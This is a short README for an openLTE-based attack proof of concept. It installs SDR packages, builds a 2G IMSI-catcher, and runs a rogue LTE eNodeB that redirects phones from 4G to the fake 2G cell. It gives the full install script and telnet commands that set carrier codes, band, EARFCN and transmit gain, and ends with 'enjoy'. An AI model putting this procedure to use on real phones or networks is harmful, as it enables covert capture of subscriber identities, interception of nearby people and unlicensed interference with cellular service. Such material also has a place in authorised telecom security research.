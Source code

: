 # openlte_redirection_quickinstall
* Installation
Follow this readme :  
https://github.com/bbaranoff/openLTE2GSM/
  
The bash script is : 
sudo apt update
wget https://github.com/bbaranoff/openLTE2GSM/releases/download/v0.1/uhd_20211230-1_amd64.deb
wget https://github.com/bbaranoff/openLTE2GSM/releases/download/v0.1/soapysdr_20211230-1_amd64.deb
wget https://github.com/bbaranoff/openLTE2GSM/releases/download/v0.1/bladerf_20211230-1_amd64.deb
wget https://github.com/bbaranoff/openLTE2GSM/releases/download/v0.1/soapybladerf_20211230-1_amd64.deb
wget https://github.com/bbaranoff/openLTE2GSM/releases/download/v0.1/soapyuhd_20211230-1_amd64.deb
wget https://github.com/bbaranoff/openLTE2GSM/releases/download/v0.1/gnuradio_20211230-1_amd64.deb
wget https://github.com/bbaranoff/openLTE2GSM/releases/download/v0.1/gr-osmosdr_20211230-1_amd64.deb
wget https://github.com/bbaranoff/openLTE2GSM/releases/download/v0.1/polarssl_20211230-1_amd64.deb
wget https://github.com/bbaranoff/openLTE2GSM/releases/download/v0.1/openlte_20211230-1_amd64.deb
dpkg -i *.deb
export LD_LIBRARY_PATH=/usr/local/lib/
sudo ldconfig
sudo apt install libboost-date-time1.67.0 libboost-filesystem1.67.0 libboost-regex1.67.0 libboost-serialization1.67.0 libboost-serialization1.67.0
echo "Done !!!!"


* Installing 2G IMSI-Catcher
Then build 2G IMSI-Catcher  
Build IMSI-catcher  

* Testing the attack
Running  
Phone in 2G/3G/4G mode  
This article is in progress and is just a PoC  
The attack step are run the IMSI-catcher into arfcn 514 follow (see Build IMSI-catcher)  
run the 4G redirector as follow  
  
Shell #1  
LTE_fdd_enodeb

Shell #2  
telnet localhost 30000  
write rx_gain 30  
write tx_gain 80  
write mcc 215  
write mnc 15  
write band 7  
write dl_earfcn 3350  
(change with your ue values be careful that the earfcn is in the band)  
  
Then switch the phone in airplane mode and in  localhost:30000 (Shell #2) :  
start  
  
wait… and when you have “ok” answer in shell #2 remove airplane mode and … enjoy !

* Video explaining : 
https://www.youtube.com/watch?v=CL4THUyUSDc&t=34s&pp=ygUhbHRlIHJlZGlyZWN0aW9uIGJhc3RpZW4gYmFyYW5vZmYg  
https://www.youtube.com/shorts/j5cs28u4DAo  
https://www.youtube.com/watch?v=GmPN6CblvaQ&pp=ygUhbHRlIHJlZGlyZWN0aW9uIGJhc3RpZW4gYmFyYW5vZmYg
